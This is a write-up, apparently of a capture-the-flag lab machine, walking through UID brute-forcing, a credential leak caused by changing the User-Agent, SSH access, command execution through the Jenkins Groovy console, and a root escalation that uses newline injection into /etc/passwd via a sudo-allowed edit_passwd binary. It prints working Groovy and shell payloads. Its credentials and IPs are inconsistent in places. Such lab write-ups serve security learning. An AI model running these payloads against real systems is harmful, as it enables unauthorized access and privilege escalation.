# Preference 靶机 WP

目标：`192.168.2.12`
攻击机环境：`wsl Ubuntu 20.04`

## 1. 端口探测

```bash
 nmap -Pn -n -sC -sV -p- --min-rate 1000 192.168.2.12
```



发现开放端口：

```text
22/tcp    open  ssh
5566/tcp  open  HTTP Werkzeug
```

访问 5566：



页面是 Maze Corp 的内部员工目录，输入员工的UID应该是可以查到目录中的员工信息，不过输入1然后点击查询页面返回`Request failed with status 404`

## 2.爆破获取可用员工UID

既然有可点击的Lookup按钮，且输入数据后点击有返回，可以尝试抓包查看其调用的接口



调用了/api/user接口，拼接UID，返回没有UID为1的员工，尝试爆破员工的UID看看能不能找到有信息的员工



爆破UID1~10000发现有成功的爆破记录



## 3. XML格式+非浏览器User-Agent信息泄露

查看了已有的员工UID返回的信息，发现没什么可利用的信息，这里考虑到有可能后端可能对返回的json内容进行了一定的过滤，后端或许对于请求application/xml格式写有处理逻辑，或许会返回可利用的结果，尝试更换请求的格式为xml格式，发现返回的还是json格式



再看看是否是因为浏览器访问的请求被过滤了，尝试更换User-Agent为非浏览器的请求，发现返回的内容变成了xml格式，并且里面多出很多信息



其中有一条`<has_secret>`标签，注意到这里为0，如果其为1说不定有秘密，再对几个UID进行尝试，比如下面这个就泄露了配置文件信息



让AI写了个脚本提取出所有<has_secret>为1的信息，发现了有很多敏感信息，其中UID为8764的泄露信息中写了ssh登录用户名和密码，别的UID的泄露信息甚至有管理员名字和密码：`Jenkins 管理员密码: Jenkins8038#Admin`



```text
用户名: gaoyan8764
服务器 SSH 密码: R00t8764!Pass
```

## 4. 获取 user flag

```bash
ssh gaoyan8764@192.168.2.12
```

密码：

```text
R00t8764!Pass
```

读取 flag：



结果：

```text
flag{user-6380a935b0dc8e88865aba0c0524b9b5}
```

## 5. 发现并登录Jenkins系统

获取user的shell后首先查看一下`id`命令看到其uid为1000，为普通用户
再用`ss -lntp`命令查看开启的端口



发现有一个服务绑定在8080端口上且只能本地访问，尝试`curl -v 127.0.0.1:8080`查看服务信息



访问受限了，但是仔细看可以发现两个字段`X-Jenkins: 2.535`和`X-Jenkins-Session: 3b8ea232`，之前获得过Jenkins管理员的密码，又提示我需要认证才能访问，说明需要传入参数登录后才能访问，由于不知道传参的方式，直接使用curl访问不是很方便，尝试使用ssh隧道转发端口到本地，然后使用浏览器访问：

由于Jenkins 只监听本机 `127.0.0.1:8080`，所以建立 SSH 隧道：

```bash
ssh -L 8080:127.0.0.1:8080 gaoyan8764@10.135.20.67
```



浏览器访问 `http://127.0.0.1:8080`，登录：

```text
Username: jenkins
Password: Jenkins6530#Admin
```



## 6. Jenkins系统探索与发现脚本执行界面

在系统中探索发现notes界面里有一个节点



查询得Built-In Node就是Jenkins 主控服务器本身，点击管理发现了一个脚本执行界面



该界面允许输入任意 Groovy 脚本并在服务器上执行。用于故障排除和诊断，并且需要使用 `println` 命令查看输出，用AI写了一段：

执行：

```groovy
def p = ["sh", "-c", "id; sudo -n -l"].execute()
def out = new StringBuffer()
def err = new StringBuffer()
p.waitForProcessOutput(out, err)

println("OUT=" + out)
println("ERR=" + err)
println("RC=" + p.exitValue())
```



输出显示：

```text
uid=1001(jenkins) gid=1001(jenkins)

User jenkins may run the following commands:
    (ALL) NOPASSWD: /usr/local/bin/edit_passwd
```

说明该服务器以 `jenkins` 用户身份运行，并且jenkins用户虽然是普通用户但是可以用 `sudo` 执行 `/usr/local/bin/edit_passwd` 命令而无需密码

## 6. 分析 edit_passwd 漏洞

查询后发现/usr/local/bin/edit_passwd存在换行符提权漏洞，前提是没用过滤换行符，尝试一下

``` groovy
def cmd = '''payload=$(printf "X:/bin:/bin\\ngaoyan8764:x:0:0:root:/root:/bin/bash\\njunk:x:65530:65530:x")
sudo /usr/local/bin/edit_passwd bin "$payload"
awk -F: '$1=="gaoyan8764"{print NR ":" $0}' /etc/passwd
'''

def p = ["sh", "-c", cmd].execute()
def out = new StringBuffer()
def err = new StringBuffer()

p.waitForProcessOutput(out, err)

println("OUT=" + out)
println("ERR=" + err)
println("RC=" + p.exitValue())
```



成功，这里由于/etc/passwd中bin在gaoyan8764，用换行符写入的gaoyan8764\:x:0:0:root也在之前的gaoyan8764上面，系统会优先加载上面的配置，这里也是做了几次尝试，由于发现程序会自动追加`:/bin:/bin`，所以在后面又加了一行`\\njunk:x:65530:65530:x`让其不影响到gaoyan8764的配置，现在gaoyan8764已经是root用户了

## 7. 获取 root flag

提权后重新ssh连接到gaoyan8764



获取root的shell与flag

```text
flag{root-f528c6318cb57c8f56f8b9ebf9a10b56}
```

## 最终 flag

```text
User: flag{user-6380a935b0dc8e88865aba0c0524b9b5}
Root: flag{root-f528c6318cb57c8f56f8b9ebf9a10b56}
```
